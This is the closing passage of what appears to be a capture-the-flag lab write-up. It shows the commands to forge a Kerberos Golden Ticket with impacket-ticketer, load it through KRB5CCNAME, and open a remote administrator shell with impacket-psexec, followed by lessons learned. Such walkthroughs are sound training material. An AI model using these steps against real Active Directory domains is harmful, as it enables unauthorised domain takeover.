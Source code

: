 -   **Sync our clock to the host using ntupdate**:
    -   `sudo ntpdate -s $domain`
    -   {{< figure src="/ox-hugo/2024-11-02-170903_.png" >}}

-   **Using** `impacket-ticketer` **to create the Golden Ticket**:
    -   `impacket-ticketer -nthash [KRBTGTHash] -domain-sid [SID] -domain $domain Administrator`
    -   {{< figure src="/ox-hugo/2024-11-02-171723_.png" >}}

-   **Export the ticket to the** `KRB5CCNAME` **Variable**:
    -   `export KRB5CCNAME=./Administrator.ccache`
    -   {{< figure src="/ox-hugo/2024-11-02-171801_.png" >}}

-   **Use the ticket for connecting via** `psexec`
    -   `impacket-psexec -k -no-pass $machine.$domain`
    -   {{< figure src="/ox-hugo/2024-11-02-171912_.png" >}}

-   **Lets get the root flag**:
    -   {{< figure src="/ox-hugo/2024-11-02-172227_.png" >}}


## Lessons Learned: {#lessons-learned}


### What did I learn? {#what-did-i-learn}

1.  Try simple, kerberoast when we have creds can lead to easy wins and privesc paths.


### What silly mistakes did I make? {#what-silly-mistakes-did-i-make}

1.  Had a brainfart in regards to using psexec that was fun.


## Sign off: {#sign-off}

Remember, folks as always: with great power comes great pwnage. Use this knowledge wisely, and always stay on the right side of the law!

Until next time, hack the planet!

&#x2013; Bloodstiller

&#x2013; Get in touch bloodstiller at proton dot me


